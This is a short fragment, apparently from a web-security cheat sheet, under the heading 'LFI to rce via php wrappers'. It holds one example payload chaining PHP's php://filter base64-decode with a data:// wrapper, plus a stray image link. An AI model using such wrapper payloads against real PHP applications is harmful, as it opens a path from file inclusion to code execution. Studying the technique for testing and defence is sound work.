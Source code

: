 ## LFI to rce via php wrappers

php://filter/convert.base64-decode/resource=data://plain/text,aGVsbG8=